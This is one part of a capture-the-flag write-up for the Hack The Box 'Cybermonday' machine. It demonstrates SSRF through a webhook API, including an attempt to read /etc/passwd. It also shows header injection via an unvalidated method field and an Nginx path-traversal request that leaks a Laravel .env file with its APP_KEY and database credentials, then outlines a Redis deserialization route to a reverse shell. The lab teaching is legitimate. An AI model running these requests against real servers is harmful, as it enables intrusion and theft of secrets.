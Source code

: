 # HTB Cybermonday - Obtaining More Info

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[**Obtaining More Info**](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have the ability to [[ssrf|make the web server send requests for us]], the question is what to do with it. The first thing to try would be to [[local-file-inclusion|get files on the system]]:
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "file://etc/passwd", "method": "GET"}' -v

{"status":"error","message":"Only http protocol is allowed"}
```

Not going to be that easy unfortunately. With us only being able to make [[http|HTTP]] requests, the use right now seems limited. Let's use a [[netcat|`netcat`]] listener and send some requests to see what info the webhook is sending.
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "GET"}' -v

GET / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Hmm, not much to go on here. What about a `POST`?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "POST"}' -v

POST / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Still very little. Well we've already tried messing around with the `url` with no luck but what about the `method`?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "HMM"}' -v

HMM / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

I don't think `HMM` is a valid HTTP verb (though there are a lot more than you might think). So we can assume the `method` is not being validated, but how far does this go?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "TEST\ntest 2"}' -v

TEST
test 2 / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Okay, so now we have a way to send data to locations only the server can access. But what can we actually do with this? To figure that out lets first return to the Cybermonday shopping site. Now that we know it's running on [[laravel|Laravel]] we know there's a `.env` file that might contain some useful information. If we look at the headers we also know that the store is running behind an [[nginx|Nginx]] proxy server, which can often be misconfigured to allow for [[path-traversal|path traversal]]. Trying to use this on most paths just results in Laravel receiving the request and providing a `404` response. However if we look at the URL for some of the static images on the site we see there's also an `assets` path available. If you used [[gobuster|`gobuster`]] when first browsing the site you might have also found this directory. Navigating to the directory itself gives us an Nginx `403` message rather than a Laravel `404` which is promising. If we try the path traversal here: 
```
http://cybermonday.htb/assets../.env

APP_NAME=CyberMonday
APP_ENV=local
...
```

We now have an environment file with some very interesting information in it. Among this information is the Laravel `APP_KEY`, and information on both the [[redis|Redis server]] and [[mysql|MySQL server]] this app connects to.

As we can only send data with the webhook and not receive it without a valid HTTP response, the MySQL information is probably not going to be very useful, however Redis has a much [[redis#RESP|simpler protocol]] that doesn't require a back and forth to update information and settings. If you'd like to know more about it you can [read about the Redis RESP protocol here](https://redis.io/docs/reference/protocol-spec/). You might have noticed in the Laravel debug information from the profile page that the app is making use of [[session-poisoning|sessions]]. These sessions will be stored in the Redis server, so if we can find a way to inject a [[php|PHP]] [[deserialization|deserialization]] attack payload into the Redis server, we could potentially have a way to perform [[rce|RCE]] and gain a [[reverse-shell|reverse shell]].

Next: [Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)